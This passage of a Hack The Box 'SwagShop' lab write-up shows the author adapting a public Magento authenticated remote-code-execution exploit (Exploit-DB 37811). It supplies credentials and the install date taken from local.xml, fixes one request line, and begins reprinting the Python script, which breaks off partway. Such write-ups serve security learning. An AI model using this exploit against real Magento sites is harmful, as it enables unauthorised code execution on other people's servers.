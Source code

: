 #### exploit remote code execution

Now that we know the version, we can take a look at the exploit which requires authentication: [Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/37811)

We fill these lines with the credentials created by the previous exploit, and the install date we saw on [http://10.10.10.140/app/etc/local.xml](http://10.10.10.140/app/etc/local.xml):

![exploit 2 args](/assets/img/htb/machines/linux/easy/swagshop/exploit-2-help.png)

![config exploit 2](/assets/img/htb/machines/linux/easy/swagshop/exploit-2-config.png)

Then I encountered this error:

![error 2 exploit 2](/assets/img/htb/machines/linux/easy/swagshop/exploit-2-error-2.png)

I had to change line containing:

{% highlight python %}
request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
{% endhighlight %}

into:

![](/assets/img/htb/machines/linux/easy/swagshop/2y.png)

Exploit after updates:

{% highlight python%}
from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
